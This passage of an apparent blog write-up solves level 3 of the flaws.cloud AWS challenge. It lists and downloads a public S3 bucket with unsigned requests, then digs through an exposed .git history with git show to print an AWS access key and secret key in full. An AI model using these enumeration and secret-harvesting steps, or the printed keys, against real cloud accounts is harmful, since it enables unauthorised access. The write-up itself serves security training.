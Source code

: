 level3-9afd3927f195e10225021a578e6f78df.flaws.cloud. 5 IN A 52.218.153.50

;; Query time: 20 msec
;; SERVER: 192.168.119.2#53(192.168.119.2)
;; WHEN: Sat Oct 23 04:51:29 EDT 2021
;; MSG SIZE  rcvd: 96
         
┌──(fumenoid㉿kali)-[~]
└─$ nslookup 52.218.153.50 
50.153.218.52.in-addr.arpa      name = s3-website-us-west-2.amazonaws.com.

Authoritative answers can be found from:
{% endhighlight %}

Woaw I can read the bucket

{% highlight bash %}
┌──(fumenoid㉿kali)-[~]
└─$ aws s3 ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud --no-sign-request
                           PRE .git/
2017-02-26 19:14:33     123637 authenticated_users.png
2017-02-26 19:14:34       1552 hint1.html
2017-02-26 19:14:34       1426 hint2.html
2017-02-26 19:14:35       1247 hint3.html
2017-02-26 19:14:33       1035 hint4.html
2020-05-22 14:21:10       1861 index.html
2017-02-26 19:14:33         26 robots.txt
{% endhighlight %}

also there is a `.GIT` hmmm, let's download the whole bucket

{% highlight bash %}
┌──(fumenoid㉿kali)-[~/Desktop/Fumenoid/Cloud/FLaws3]
└─$ aws s3 cp s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --no-sign-request --recursive
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/post-update.sample to .git/hooks/post-update.sample
[Redacted]
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/authenticated_users.png to ./authenticated_users.png
{% endhighlight %}

`git log` and `git show` to find the access keys.

{% highlight bash %}
┌──(fumenoid㉿kali)-[~/Desktop/Fumenoid/Cloud/FLaws3]
└─$ git show f52ec03b227ea6094b04e43f475fb0126edb5a61
commit f52ec03b227ea6094b04e43f475fb0126edb5a61
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:07 2017 -0600

    first commit

diff --git a/access_keys.txt b/access_keys.txt
new file mode 100644
index 0000000..e3ae6dd
--- /dev/null
+++ b/access_keys.txt
@@ -0,0 +1,2 @@
+access_key AKIAJ366LIPB4IJKT7SA
+secret_access_key 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
{% endhighlight %}
